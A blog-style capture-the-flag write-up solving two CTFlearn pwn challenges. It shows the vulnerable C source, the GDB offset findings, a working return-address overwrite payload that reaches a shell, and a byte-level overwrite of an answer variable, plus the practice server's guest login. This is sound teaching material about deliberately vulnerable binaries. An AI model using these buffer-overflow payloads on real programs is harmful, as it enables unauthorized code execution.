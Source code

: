 ```yaml
---
title: "CTFlearn PWN Writeups"
permalink: "/ctflearn-pwn"
---
```


I plan to just keep adding PWN writeups here from [CTFlearn](https://ctflearn.com/).

1. [Favorite Color](#favorite-color-60-pts)
2. [Blackbox](#blackbox-80-pts-hard)

## Favorite Color [60 PTS Medium]

Source code is provided:

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int vuln() {
    char buf[32];

    printf("Enter your favorite color: ");
    gets(buf);

    int good = 0;
    for (int i = 0; buf[i]; i++) {
        good &= buf[i] ^ buf[i];
    }

    return good;
}

int main(char argc, char** argv) {
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());

    //disable buffering.
    setbuf(stdout, NULL);

    if (vuln()) {
        puts("Me too! That's my favorite color too!");
        puts("You get a shell! Flag is in flag.txt");
        system("/bin/sh");
    } else {
        puts("Boo... I hate that color! :(");
    }
}
```

We can see that `good` will always be 0 because if you `XOR` anything with itself it returns 0, and when you `AND` anything with 0, it will also return 0.

```c
int good = 0;
for (int i = 0; buf[i]; i++) {
    good &= buf[i] ^ buf[i];
}
```
Since `vuln` always returns 0, this check will never pass:

```c
if (vuln()) {
    puts("Me too! That's my favorite color too!");
    puts("You get a shell! Flag is in flag.txt");
    system("/bin/sh");
}
```

However we can see that there is a `buffer overflow` on this line:

```c
gets(buf);
```

We can use this `buffer overflow` to overwrite the saved `eip` on the stack. 

Since we can change the saved `eip`, we can make the program skip the `if (vuln())` check.

Open the program up in `GDB` and find the offset from our input to the saved `eip`:

![saved eip offset](/assets/ctflearn/pwn/favorite-color/gdb_eip_offset.png)

We can see that we need 52 junk bytes and then our address to overwrite the saved `eip`.

Find the address of the instruction after the `if (vuln())` check:

![address of next instruction](/assets/ctflearn/pwn/favorite-color/if_addr.png)

We can see that the `if (vuln())` check is happening on address `0x08048655`, so we'll set the saved `eip` to the address after that, `0x08048657`.

> ``📝:`` To get this view just type `disassemble main`, where `main` can be any function you want to disassemble. 

Keep in mind that x86 uses [little endian](https://stackoverflow.com/a/25939262), so bytes are stored in reverse order.

Our final payload:

```sh
echo -e 'BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB\x57\x86\x04\x08' > /tmp/script/payload
```

The `-e` is to enable interpretation of backslash escapes. 

Now we can do `(cat /tmp/script/payload; cat) | ./color` to send the payload to the binary. 

> ``📝:`` We need to do `(cat x; cat)` because if we don't, then `stdin` will close, and we can't type anything else.

Running this, we get the flag:

```sh
color@ubuntu-512mb-nyc3-01:~$ (cat /tmp/script/payload; cat) | ./color
Enter your favorite color: Me too! That's my favorite color too!
You get a shell! Flag is in flag.txt
cat flag.txt
flag{REDACTED}
```

## Blackbox [80 PTS Hard]

First open it up in `GDB` to do some reverse engineering:

```sh
blackbox@ubuntu-512mb-nyc3-01:~$ gdb blackbox
GNU gdb (Ubuntu 8.1.1-0ubuntu1) 8.1.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
blackbox: No such file or directory.
(gdb) r
Starting program:
No executable file specified.
Use the "file" or "exec-file" command.
(gdb)
```

Oh it doesn't work? `GDB` is blocked in this challenge unfortunately. 

The next thing I decided to do was to see if I could make the program segfault. 

```sh
blackbox@ubuntu-512mb-nyc3-01:~$ python -c 'print("1"*100)' | ./blackbox
What is 1 + 1 = No dummy... 1 + 1 != 825307441...
*** stack smashing detected ***: <unknown> terminated
```

Looks like there's a `stack canary` and there are some weird numbers. Maybe those numbers mean something. Converting those numbers from decimal to hex gives us this:

![decimal to hex](/assets/ctflearn/pwn/blackbox/decimal_to_hex.png)


That looks like ascii. Converting to ascii:

![hex to ascii](/assets/ctflearn/pwn/blackbox/hex_to_ascii.png)

Those are the ones from this command `python -c 'print("1"*100)' | ./blackbox`.

Lets try to reduce the number of ones until that weird number doesn't show up: 

```sh
blackbox@ubuntu-512mb-nyc3-01:~$ python -c 'print("1"*80)' | ./blackbox
What is 1 + 1 = No dummy... 1 + 1 != 0...
```
80 seems like the sweetspot.

When we do 81 it outputs:

```sh
blackbox@ubuntu-512mb-nyc3-01:~$ python -c 'print("1"*81)' | ./blackbox
What is 1 + 1 = No dummy... 1 + 1 != 49...
```

When we convert 49 to hex and then to `ascii` gives us 1 again. So I am assuming that there is some `answer` variable that we aren't writing into with our input. So to write into that we are utilizing a `buffer overflow` to write into the `answer` variable. 

We want `answer` to have the value 2, so lets write 80 junk bytes and then the value 2:

```sh
blackbox@ubuntu-512mb-nyc3-01:~$ python -c 'print(b"1"*80+b"2")' | ./blackbox
What is 1 + 1 = No dummy... 1 + 1 != 50...
```

... Why didn't it work?

Well we can assume that whatever is taking our input isn't taking it as an integer, so when it overwrites the `answer` variable it takes the byte representation of the character we put in. 

So all we have to do is send the actual byte `\x02`, in order for the `answer` variable to become 2.

```sh
blackbox@ubuntu-512mb-nyc3-01:~$ python -c 'print(b"1"*80+b"\x02")' | ./blackbox
What is 1 + 1 = CORRECT! You get flag:
flag{REDACTED}
```

And we got the flag!!!

If you want to use pwntools to interact with the binary you can do that!

```sh
from pwn import *

target = ssh(host='104.131.79.111', user='blackbox', password='guest', port=1001)
p = target.process(['/home/blackbox/blackbox'])

payload = # add whatever your payload is

#interact with the program like normal 
```

I won't show you the whole script because that feels too easy, but with this writeup, you should be able to complete the script!



I'll keep adding more writeups for pwn challenges here when I do them.

